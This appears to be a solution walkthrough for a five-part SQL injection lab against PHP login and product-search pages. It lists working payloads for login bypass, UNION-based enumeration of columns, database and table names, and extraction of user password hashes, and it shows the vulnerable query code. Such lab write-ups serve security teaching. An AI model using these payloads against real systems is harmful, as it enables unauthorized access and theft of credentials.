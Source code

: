 # Challenge 1 - Try to login
	+ main file used = login1.php
	+ solution: anything' OR 1=1 -- //
	+ note: the query was of the form:
	$q = "SELECT * FROM users where username='".$username."' AND password = '".md5($pass)."'" ;


# Challenge 2 - Try logging in... again
	+ main file used = login2.php
	+ solution = blah') OR 1=1 -- //
	+ note: the query was of the form:
	$q = "SELECT * FROM users where (username='".$username."') AND (password = '".md5($pass)."')" ;

# Challenge 3 - Get the database name
	+ hint: Try to figure out the DB software being used. Find out how to get database details with that software
	+ main file used = searchproducts.php
	+ solution = ' union select null, null, database(), null, null -- //
	+ approach = keep trying 
		+ ' union select 1 -- //
		+ ' union select 1, 2 -- //
		+ and so on until you get an error
		+ you will then figure out the number of columns
		+ by the comment style, you should've figured out the DB software being used - viz MySQL in this case 
		+ google how to obtain DB name on MySQL through SQLi, you will come across the database() function.

# Challenge 4 - Find the table names
	+ main file used = searchproducts.php
	+ solution = ' union select null, table_name, null, null, null from information_schema.columns where table_schema=database() -- //
	+ same approach as challenge 3

# Challenge 5 - Find the password of the 5th person in md5.
	+ main file used = searchproducts.php
	+ solution = ' union select null, id, username, password, fname from users -- //
	+ approach
		+ you would've obtained the table names from the previous challenge 
		+ ' UNION SELECT column_name, null, null, null, null FROM information_schema.columns -- // will help you get the column names
		+ then execute the query stated in 'solution' and extract the password of the person corresponding to id = 5

